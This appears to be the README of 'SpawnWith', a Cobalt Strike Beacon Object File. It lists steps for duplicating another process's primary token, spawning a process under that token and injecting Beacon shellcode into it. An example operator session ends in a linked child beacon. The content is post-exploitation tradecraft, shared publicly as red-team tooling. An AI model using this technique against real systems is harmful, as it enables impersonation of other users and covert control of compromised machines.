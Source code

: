 ## SpawnWith
 
An experimental Beacon Object File (BOF) that provides an alternative to the `spawnas` and `inject` commands.  This exposes a new command, `spawn_with [pid] [listener]`, that performs the following:

1. Obtain a handle to the target process.
2. Obtain a handle to the process' primary token.
3. Duplicate the parimary token to an impersonation token.
4. Get the Beacon `spawnto` value.
5. Attempt to spawn a new process with the duplicated token using `CreateProcessWithTokenW`.
 * If this attempt fails, try `CreateProcessAsUserW`.
6. Inject the Beacon shellcode into the spawned process.
 * Link to the Beacon in the case of P2P.


### Example

```
beacon> getuid
[*] You are DESKTOP-1U6AHIU\Daniel (admin)

beacon> ps
22656 21972 wordpad.exe                            x64   1           DESKTOP-1U6AHIU\test_user

beacon> spawnto x64 %windir%\sysnative\notepad.exe

beacon> spawn_with 22656 tcp-local
[*] Task Beacon to run windows/beacon_bind_tcp (127.0.0.1:4444)
[+] received output:

Spawned PID 45668 and injected 297472 bytes

[+] established link to child beacon: 192.168.0.195
```

![Beacon](beacon.png)